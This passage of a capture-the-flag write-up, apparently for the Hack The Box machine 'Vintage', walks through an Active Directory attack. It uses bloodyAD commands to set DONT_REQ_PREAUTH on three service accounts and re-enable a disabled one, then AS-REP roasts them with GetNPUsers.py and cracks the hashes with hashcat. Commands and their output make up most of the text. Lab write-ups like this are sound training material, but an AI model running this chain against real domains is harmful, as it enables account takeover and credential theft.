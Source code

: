 Knowing that we have **GenericAll** on theses 3 accounts, we need to modify theses account and set **DONT_REQ_PREAUTH** as preparation for the **ASREPRoasting**

```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k add uac -f DONT_REQ_PREAUTH SVC_ARK

[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_ARK userAccountControl

bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k add uac -f DONT_REQ_PREAUTH SVC_LDAP

[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_LDAP userAccountControl

bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k add uac -f DONT_REQ_PREAUTH SVC_SQL

[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_SQL userAccountControl
```
Now we can verify 

```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k get object 'svc_ark' --attr userAccountControl

distinguishedName: CN=svc_ark,OU=Pre-Migration,DC=vintage,DC=htb
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD; DONT_REQ_PREAUTH
```
Before doing **asreproasting**, let's go back to **svc_sql** which was marked as **disabled account**, we need to **enable** it

```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k remove uac -f ACCOUNTDISABLE SVC_SQL
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl
```
Now, **roasting** 

```bash
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -usersfile users.txt -dc-ip '10.10.11.45' vintage.htb/ -no-pass -k

hashcat -m 18200 -a 0 ASREProastables.txt /usr/share/wordlists/rockyou.txt

$krb5asrep$23$svc_sql@VINTAGE.HTB:f31b6253aeea38a8cbc9f85abab4009f$7fd332...0976:REDACTED
```
<img src="../assets/gif/chefs-kiss-french-chef.gif" alt="yay" width="550">
